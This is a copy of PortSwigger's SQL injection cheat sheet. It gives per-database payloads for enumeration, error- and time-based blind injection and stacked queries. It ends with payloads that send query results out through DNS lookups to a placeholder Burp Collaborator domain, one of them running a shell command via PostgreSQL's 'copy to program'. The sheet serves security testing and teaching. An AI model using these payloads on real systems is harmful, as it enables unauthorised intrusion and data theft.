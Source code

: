 From: https://portswigger.net/web-security/sql-injection/cheat-sheet

SQL injection cheat sheet

## String concatenation
Oracle 	      'foo'||'bar'
Microsoft 	  'foo'+'bar'
PostgreSQL  	'foo'||'bar'
MySQL 	      'foo' 'bar' [Note the space between the two strings]
              CONCAT('foo','bar')

## Substring
Oracle 	    SUBSTR('foobar', 4, 2)
Microsoft 	SUBSTRING('foobar', 4, 2)
PostgreSQL 	SUBSTRING('foobar', 4, 2)
MySQL 	    SUBSTRING('foobar', 4, 2)

## Comments
Oracle 	    --comment
Microsoft 	--comment
            /*comment*/
PostgreSQL 	--comment
            /*comment*/
MySQL 	    #comment
            -- comment [Note the space after the double dash]
            /*comment*/

## Database version
Oracle 	    SELECT banner FROM v$version
            SELECT version FROM v$instance
Microsoft 	SELECT @@version
PostgreSQL 	SELECT version()
MySQL 	    SELECT @@version

## Database contents
Oracle    	SELECT * FROM all_tables
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft 	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL 	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL 	    SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

## Conditional errors
Oracle 	    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
MySQL 	    SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')

## Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
Oracle      Does not support batched queries.
Microsoft 	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL 	QUERY-1-HERE; QUERY-2-HERE
MySQL 	    QUERY-1-HERE; QUERY-2-HERE

Note
With MySQL, batched queries typically cannot be used for SQL injection. 
However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
Oracle 	    dbms_pipe.receive_message(('a'),10)
Microsoft 	WAITFOR DELAY '0:0:10'
PostgreSQL 	SELECT pg_sleep(10)
MySQL 	    SELECT sleep(10)

## Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.
Oracle 	    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft 	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL 	    SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
            
## DNS lookup
You can cause the database to perform a DNS lookup to an external domain. 
To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that 
you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

**Oracle** 	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup.
The vulnerability has been patched but there are many unpatched Oracle installations in existence:
                     SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

The following technique works on fully patched Oracle installations, but requires elevated privileges:
                    SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')

**Microsoft** 	    exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'
**PostgreSQL** 	    copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
**MySQL**          	The following techniques work on Windows only:
                    LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
                    SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
                    
## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. 
To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack,
and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

**Oracle** 	SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
**Microsoft** 	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')
**PostgreSQL** 	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();

**MySQL** 	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
